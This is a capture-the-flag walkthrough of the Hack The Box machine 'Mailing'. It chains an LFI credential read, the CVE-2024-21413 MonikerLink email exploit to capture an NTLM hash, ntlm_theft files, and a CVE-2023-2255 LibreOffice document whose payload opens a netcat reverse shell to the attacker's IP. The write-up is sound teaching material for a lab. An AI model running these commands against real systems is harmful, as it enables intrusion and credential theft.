This box is rated easy difficulty on HTB. It involves us discovering an LFI vulnerability in the website, which allows us to get the hMailServer's Administrator email password. We can then utilize a MonikerLink exploit over SMTP to capture another user's NTLM hash, therefore letting us grab a shell with WinRM access. Once on the box, we find an outdated version of LibreOffice that's prone to automatic execution of embedded links in specially crafted .odt files, allowing us to get a reverse shell as the LocalAdmin.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -sCV 10.129.232.39 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 18:20 CDT
Nmap scan report for 10.129.232.39
Host is up (0.056s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://mailing.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp  open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
|_imap-capabilities: ACL QUOTA SORT IDLE CHILDREN completed CAPABILITY IMAP4rev1 RIGHTS=texkA0001 NAMESPACE OK IMAP4
445/tcp  open  microsoft-ds?
465/tcp  open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: ACL QUOTA SORT IDLE CHILDREN completed CAPABILITY IMAP4rev1 RIGHTS=texkA0001 NAMESPACE OK IMAP4
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-14T23:20:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.95 seconds
```

Looks like a Windows machine with quite a lot of ports open, so I'll mainly focus on HTTP, SMB, and SMTP to gather information. The web server on port 80 redirects us to `mailing.htb` which I add to my `/etc/hosts` file. Since HTTP is present, I fire up Ffuf to search for subdirectories and Vhosts in the background.

```
$ ffuf -u http://mailing.htb/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mailing.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 160, Words: 9, Lines: 2, Duration: 78ms]
instructions            [Status: 301, Size: 166, Words: 9, Lines: 2, Duration: 57ms]

:: Progress: [220560/220560] :: Job [1/1] :: 714 req/sec :: Duration: [0:07:22] :: Errors: 0 ::
```

Testing for Guest and null authentication over SMB shows that both get denied, meaning we'll have to have credentials before taking a look at the shares or doing anything else here.



Checking out the landing page shows a site dedicated to serving mail and is compatible with any mailing client. Other than a link to an instructions manual, there are a few usernames which we can create a wordlist out of to spray against things like SMB. Judging from the description, this site uses hMailServer in order to handle all the mailing protocols.

## LFI on hMailServer Site
Nmap did pick this up as SMTP, IMAP, and POP3 were running on several ports, resolving the service to be hMailServer. Some research shows that this is a free, open-source email server for Windows used to host and manage email for a domain. It supports standard mail protocols like SMTP, POP3, and IMAP so clients can send and receive messages. Administrators typically use it to run their own mail infrastructure, manage users, and apply spam/virus filtering.

### Finding Vulnerability
Other than crafting emails with [Swaks](https://jetmore.org/john/code/swaks/), I'm not too sure how to go about exploiting it, however I notice something interesting on the main page. It seems like the web server fetches the instructions page via a file parameter on the `download.php` page.



This could be prone to path traversal and allow us to read different files on the system. I start testing this by capturing a request to the download link in Burp Suite and attempting to read the `windows.ini` file, which is on every Windows machine.

```
/download.php?file=../../../../../../windows/win.ini
```



### Reading Config Files
That returns the contents of it, confirming that this site is vulnerable to LFI. We can use this to read hardcoded credentials in certain configuration documents on the filesystem, and since we know the site is using hMailServer, I start there. Google discloses that the default spot for the initialization file is under the `C:\Program Files (x86)\hMailServer\bin\` directory.

```
/download.php?file=../../../../../../Program%20Files%20(x86)/hMailServer/bin/hmailserver.ini
```



Reading that gives us an MD5 hash for both the Administrator's password as well as the database password for MSSQLCE. I attempt to crack these at [Crackstation.net](https://crackstation.net/), which gives us the plaintext version for the Admin's credentials.



## SMTP Exploitation
This should work for the Administrator's email account, but unfortunately not for any of the other usernames from the site. I use this password with Swaks to test authentication over SMTP which shows that these are indeed valid credentials.

```
$ swaks --auth-user 'administrator@mailing.htb' --auth LOGIN --auth-password [REDACTED] --quit-after AUTH --server mailing.htb
=== Trying mailing.htb:25...
=== Connected to mailing.htb.
<-  220 mailing.htb ESMTP
 -> EHLO kali
<-  250-mailing.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
<-  334 UGFzc3dvcmQ6
 -> aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
<-  235 authenticated.
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Next step took me a long time to discover. Enumerating on the other services doesn't pan out, meaning that we'll likely have to exploit this mailing process to recover credentials or an NTLM hash somehow. Checking the instructions file that was downloaded from the site earlier, I can correctly assume that the other users are either using Windows Mail or Thunderbird (which is more common on Linux).



I also find a potential username at the very bottom of the PDF, which matches one on the site's main page, so it's a good target to begin with.



### CVE-2024–21413
Taking to Google for any known vulnerabilities led me to [CVE-2024–21413](https://nvd.nist.gov/vuln/detail/cve-2024-21413), which explains that attackers can gain RCE on Microsoft Outlook by means of a malicious embedded link in provided file attachments.

This vulnerability, also known as the "MonikerLink" bug, allows attackers to execute arbitrary code on a victim's machine without any user interaction. The vulnerability is triggered by maliciously crafted email messages that exploit specific types of hyperlinks within Outlook, leading to severe consequences such as system compromise, data exfiltration, or the installation of malware.

I knew this was possible over SMB to steal NTLMv2 hashes by using a similar technique, but it's interesting to know that it applies here as well. While researching, I come across this [Github repository](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) that contains a PoC script for getting RCE on affected systems.

I use the following command to force the email account's owner to authenticate to my own SMB server, which should capture a hash.

```
$ python CVE-2024-21413.py --server mailing.htb --port 587 \
--username administrator@mailing.htb --password [REDACTED] \
--sender cbev@mailing.htb --recipient maya@mailing.htb \
--url "\\10.10.14.6\share\pwn" --subject "Click Me Please"
```

- `--server mailing.htb` - Our target server
- `--port 587` - The SMTP port that hMailServer is running on
- `--username administrator@mailing.htb` - Username found in config file
- `--password [REDACTED]` - Recovered password from config file
- `--sender cbev@mailing.htb` - This could be anything (smart to match domain though)
- `--recipient maya@mailing.htb` - Specifying users (only found Maya so far), could brute-force common names if this doesn't work
- `--url "\\ATTACKER_IP\share\pwn"` - Should point towards our SMB server, the shares name does not matter
- `--subject "Click Me Please"` - Could be anything as the user will click it no matter what


We also need to setup a Responder server so we're able to capture it.

```
$ sudo Responder -I tun0
```

### Initial Foothold
It takes a little bit, but we're rewarded with the NTLM hash for Maya's account, which we can send over to JohnTheRipper or Hashcat to retreive the plaintext version.



That cracks relatively quick and we can confirm authentication by using Netexec over SMB once again.



Checking if she is in the Remote Management group, which has access to WinRM onto the system responds with **"Pwn3d!"**, confirming that we're able to grab a shell with tools like [Evil-WinRM](https://github.com/Hackplayers/evil-winrm). At this point we can also grab the user flag under her Desktop folder and start internal enumeration to escalate privileges towards the LocalAdmin.



## Privilege Escalation
Searching around the filesystem shows a few interesting directories at the root of the `C:\` drive. Notably, **"Important Documents"** and **"cleanup"**, which only contain one executable between the two. I created a file to test if we're able to write to either which shows that it's only possible for the Documents folder. Checking a moment later reveals that it was removed, which is probably the work of a cleanup script running.



Checking what SMB shares Maya has access to reveals that we're able to Read and Write to that directory, which opens up a few doors for us.



### NTLM Theft Fail
Keeping with the theme of stealing NTLM hashes over SMB, I'm try to upload malicious files on the Important Documents share using the [NTLM_theft](https://github.com/Greenwolf/ntlm_theft) tool, but nothing returns. 

```
$ git clone https://github.com/Greenwolf/ntlm_theft

$ cd ntlm_theft

$ python3 ntlm_theft.py -g all -s 10.10.14.243 -f pwn

$ cd pwn

$ smbclient '//mailing.htb/Important Documents' -U maya
Password for [WORKGROUP\maya]:
Try "help" to get a list of possible commands.
smb: \> prompt false
smb: \> mput *
putting file pwn-(remotetemplate).docx as \pwn-(remotetemplate).docx (75.5 kB/s) (average 75.5 kB/s)
putting file pwn-(handler).htm as \pwn-(handler).htm (0.7 kB/s) (average 51.4 kB/s)
putting file pwn.application as \pwn.application (9.5 kB/s) (average 40.8 kB/s)
putting file pwn-(fulldocx).xml as \pwn-(fulldocx).xml (305.5 kB/s) (average 108.7 kB/s)
putting file pwn.rtf as \pwn.rtf (0.6 kB/s) (average 91.7 kB/s)
putting file pwn-(externalcell).xlsx as \pwn-(externalcell).xlsx (33.5 kB/s) (average 83.7 kB/s)
putting file zoom-attack-instructions.txt as \zoom-attack-instructions.txt (0.5 kB/s) (average 71.6 kB/s)
putting file desktop.ini as \desktop.ini (0.2 kB/s) (average 61.4 kB/s)
putting file pwn.jnlp as \pwn.jnlp (0.9 kB/s) (average 54.6 kB/s)
putting file pwn.scf as \pwn.scf (0.2 kB/s) (average 45.7 kB/s)
putting file pwn.pdf as \pwn.pdf (4.5 kB/s) (average 42.9 kB/s)
putting file pwn.htm as \pwn.htm (0.5 kB/s) (average 40.2 kB/s)
putting file pwn.wax as \pwn.wax (0.3 kB/s) (average 37.8 kB/s)
putting file pwn-(icon).url as \pwn-(icon).url (0.6 kB/s) (average 35.7 kB/s)
putting file pwn.m3u as \pwn.m3u (0.3 kB/s) (average 33.5 kB/s)
putting file pwn-(frameset).docx as \pwn-(frameset).docx (58.4 kB/s) (average 34.8 kB/s)
putting file pwn.asx as \pwn.asx (0.9 kB/s) (average 33.2 kB/s)
putting file Autorun.inf as \Autorun.inf (0.5 kB/s) (average 31.7 kB/s)
putting file pwn.library-ms as \pwn.library-ms (3.9 kB/s) (average 29.5 kB/s)
putting file pwn.lnk as \pwn.lnk (11.9 kB/s) (average 28.8 kB/s)
putting file pwn-(stylesheet).xml as \pwn-(stylesheet).xml (1.0 kB/s) (average 27.7 kB/s)
putting file pwn.theme as \pwn.theme (9.7 kB/s) (average 27.0 kB/s)
putting file pwn-(includepicture).docx as \pwn-(includepicture).docx (56.4 kB/s) (average 28.2 kB/s)
putting file pwn-(url).url as \pwn-(url).url (0.3 kB/s) (average 27.1 kB/s)
smb: \>
```

### CVE-2023–2255
I'm confident that we'll have to exploit this share as we don't have access to any other privileges or are apart of important groups. A dig a bit further on the filesystem which reveals that LibreOffice is installed on the box, which I've seen plenty of exploits for in the past, prompting me to look up the version.

```
> type C:\Program Files\LibreOffice\program\version.ini
```



Searching around for common vulnerabilities in this implementation leads me to discovering [CVE-2023–2255](https://nvd.nist.gov/vuln/detail/cve-2023-2255), which explains that an attacker could craft craft special documents that would load external links unprompted. This fits what we're looking for, because if the LocalAdmin had viewed the Important Documents folder before, we would've at least captured their hash.

While reading about it, I locate this [Github repository](https://github.com/elweth-sec/CVE-2023-2255) that contains a PoC for executing commands once it's uploaded. I'll use this to grab a reverse shell through a Netcat binary that will be uploaded to the system.

```
$ git clone https://github.com/elweth-sec/CVE-2023-2255

$ cd CVE-2023-2255

$ python3 CVE-2023-2255.py --cmd 'cmd.exe /c C:\ProgramData\nc.exe -e cmd.exe 10.10.14.243 9001' --output pwn.odt

$ smbclient '//mailing.htb/Important Documents' -U maya
Password for [WORKGROUP\maya]:
Try "help" to get a list of possible commands.
smb: \> prompt false
smb: \> put pwn.odt
putting file pwn.odt as \pwn.odt (37.4 kB/s) (average 37.4 kB/s)
smb: \> put nc.exe 
putting file nc.exe as \nc.exe (147.2 kB/s) (average 73.7 kB/s)
smb: \>
```

Once the `.odt` file and the Netcat binary are uploaded, we'll need to move `nc.exe` to `C:\ProgramData` and setup a listener to catch the shell. If you're unable to get a connection, it's most likely due to the cleanup script, so keep reuploading the malicious document until it procs.

```
> cd C:\programdata

> copy "\Important Documents\nc.exe" nc.exe
```



Checking our privileges shows that we now have a shell as the LocalAdmin and can grab the final flag under their Desktop directory to complete this challenge.

Overall, this box was a bit harder since it revolved around malicious payloads in lesser-known protocols/services. I think it's great to know since these type of attacks are not uncommon if machines are running outdated software or if we stumble on an account with write access to certain shares. I hope this was helpful to anyone following along or stuck and happy hacking!
